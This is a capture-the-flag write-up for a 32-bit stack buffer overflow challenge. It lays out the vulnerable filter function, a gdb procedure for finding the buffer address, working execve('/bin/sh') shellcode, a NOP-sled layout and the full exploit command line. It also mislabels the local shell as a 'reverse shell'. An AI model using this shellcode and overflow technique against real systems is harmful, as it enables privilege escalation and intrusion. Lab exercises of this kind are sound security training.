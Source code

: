 # mission2
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission2.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.

## compiled options
The executable program is compiled in 32bit, the stack is executable and the canary is inactive.
```
gcc -fno-stack-protector -m32 -no-pie -O0 -z execstack -o mission2 mission2.c
```
## Code overview
The code for this challenge does not specify particular constraints on the string in input and does not check the input length, ad so it is vulnerable to overflow.
However the executable will verify, in the first 128 characters of the buffer (length 180), the absence of special characters as shown in the following function:
```
void check(char* buf) {
    // 0xb = execve
    // 0x5 = open
    for (int i = 0; i < 128; i++) {
        if (buf[i] == 0x0b || buf[i] == 0x05) {
            puts("You dirty hacker!");
            exit(0);
        } 
    }        
}
```

## Solution
The exploit is a classical [reverse shell attack](https://www.imperva.com/learn/application-security/reverse-shell/), the goal is to open a shell with the same privileges as the vulnerable binary and to execute *cat flag* from that shell.
To achieve it we need to include in the buffer an assembly code to open the shell and to overwrite the saved EIP (through overflow) with the address of our assembly code.
> **note:** we can't know precisely the shell code address, we will include a NOP Sled in the buffer and point in the middle of it.

In order to write a valid exploit it is necessary to:
* Use gdb to identify the buffer address on the stack, a way to do it is to fill it with 'A' and search for 0x41 on the stack as follows.
    * Use Python to save a string with 180 'A' in a file.
        ```
        python -c "print 'A' * 180 +'BBBB' " > ./writable/input.txt
        ```
    * Open gdb and set a breakpoint just after the executable reads the input string.
    * Run the executable with the file just created as input.
    * Print the stack and take note of the address.
        ```
        x/200xb $esp
        ```
* Include shell code in the buffer (in hex), a working example is provided below:
    ```
    \xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
    ```
    > **note:** verify the shell code is short enough to overcome the check function.

* Size correctly the NOP Sled to overwrite the saved EIP, changing the number of NOP in the following code until we have write "AAAA" in EBP + 4
    ```
    python -c "print '\x90' * 147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + 'AAAA'"  > ./writable/input.txt
    ```
* Get an address in the middle of the NOP Sled and replace 'AAAA' with it, returning from the muda() function the processor will jump in the stack executing the NOP operation and so the shell code. Following is provided the complete exploit.
    ```
    (python -c "print '\x90' * 147 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xb0\xdd\xff\xff'"; cat - ) | env -i /home/[USERNAME]/mission2/mission2
    ```
